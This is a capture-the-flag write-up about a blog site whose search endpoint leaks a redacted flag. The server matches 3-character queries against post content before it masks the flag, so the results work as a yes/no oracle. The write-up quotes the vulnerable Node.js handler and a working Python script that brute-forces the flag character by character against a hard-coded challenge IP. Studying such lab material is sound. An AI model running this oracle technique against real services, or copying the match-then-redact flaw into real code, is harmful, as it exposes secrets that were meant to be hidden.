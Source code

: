 ## Description
What's the name of this CTF? Yk what to do 😉

## Solution
We've been given a site which has a list of blogs.
<img width="1897" height="872" alt="image" src="https://github.com/user-attachments/assets/c8fabc9a-cbc5-4be8-9f80-d5554c61ce0f" />

The application is vulnerable to a side-channel attack known as XS-Search, a subclass of XS-Leaks. By observing differences in server responses based on 3-character search queries, we reconstructed the flag one character at a time.

The leak occurs due to redacted content masking the real flag but not filtering it out entirely, allowing us to detect its presence via a simple YES/NO oracle.

In the source code `index.js`:
```javascript
const FLAG = 'L3AK{t3mp_flag!!}';

...

app.post('/api/search', (req, res) => {
    const { query } = req.body;

    if (!query || typeof query !== 'string' || query.length !== 3) {
        return res.status(400).json({ error: 'Query must be 3 characters.' });
    }

    const matchingPosts = posts
        .filter(post =>
            post.title.includes(query) ||
            post.content.includes(query) ||
            post.author.includes(query)
        )
        .map(post => ({
            ...post,
            content: post.content.replace(FLAG, '*'.repeat(FLAG.length))
        }));

    res.json({
        results: matchingPosts,
        count: matchingPosts.length,
        query
    });
});
```
We observe that
* Search is restricted to 3-character queries.
* Matching happens on full content, but redaction (*) happens after the match.
* The flag is still matched, just hidden on display.

So writing this solve script we then obtain the flag.
```Python
import string
import requests

URL = 'http://34.134.162.213:17000/api/search'

alphabet = string.printable.strip()
known = 'L3AK{'

print(f"[+] Starting brute-force with prefix: {known}")

while not known.endswith('}'):
    found = False
    for c in alphabet:
        probe = (known + c)[-3:]
        r = requests.post(URL, json={"query": probe})
        data = r.json()

        # Filter out decoy match (like post id 4) by checking for masked content
        for post in data.get('results', []):
            if '*' in post['content']:
                print(f"[+] Match found via mask for '{probe}' → adding '{c}' to flag")
                known += c
                found = True
                break

        if found:
            break

    if not found:
        print("[-] No matching character found: maybe charset is wrong or flag ended.")
        break

print(f"\n Final reconstructed flag: {known}")
```
